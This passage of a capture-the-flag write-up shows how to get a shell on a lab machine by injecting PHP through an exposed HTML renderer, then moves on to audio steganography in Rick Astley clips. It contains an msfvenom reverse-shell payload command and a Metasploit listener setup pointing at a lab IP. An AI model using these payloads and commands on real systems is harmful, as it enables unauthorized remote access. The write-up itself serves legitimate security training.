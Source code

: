 ![](https://image.ibb.co/cd0CBm/3.png)

We try the username `admin` with the password `skoupidotenekes`, which results in the following:

![](https://image.ibb.co/mSVZP6/4.png)

We see 1337 hacker has created an impenetrable wall that no man could possibly bypass, but it's nice he's included a little HTML renderer.  I wonder if forgp has had some poor colleagues in the past?

![](https://image.ibb.co/kpCQWm/5.png)
Quite easy to inject any code into this page it turns out, as all we just need to insert a php code block.

 Getting a shell here is a bit of a struggle, but in the end a classic msfvenom generated payload turned out to work.
```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=10.10.15.252 LPORT=1234 -e php/base64 -f raw
```
The `php/base64` encodes the payload as a base64 string ensuring we don't get any formatting or indentation errors. We insert the result of this, into the input box, in the following format:
```
<?php YOUR_PAYLOAD_HERE ?>
```
Set up our listener:
```
msf > use exploit/multi/handler
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > set LHOST 10.10.15.252
LHOST => 10.10.15.252
msf exploit(handler) > set LPORT 1234
LPORT => 1234
msf exploit(handler) > exploit
```
We're returned a shell and we have user!

Never Gonna Give You Up
====================
Of course we don't get user access quite that easily.  Firstly, let's get the lay of the land.  We have access to the flag in xalvas' home directory as well as three audio files, two of which are snippets of Rick Astley's - Never Gonna Give You Up.  These are `recov.wav` and `alarmclocks/rick.wav`.  There's also an app folder, but since we aren't xalvas yet, we can't read it. 

So, firstly, lets investigate these two Rick Astley audio files.  They appear to be the same audio snippet but have different file sizes, implying some form of steganography or encoded message may be at play.  I tried a couple of techniques, mostly looking for messages hidden within bytes, but the one that yielded success was a standard audio comparison test.

Since an audio signal is nothing more than a wave, by inverting it and summing the resulting waves, we're left with the resulting signal.  To set this up in the same way load both files into audacity, select one of the tracks and choose the Effect->Invert option.  This will cancel out the Rick Astley segment of the track, allowing us to hear any hidden messages.  

![](https://image.ibb.co/eUJzrm/6.png)
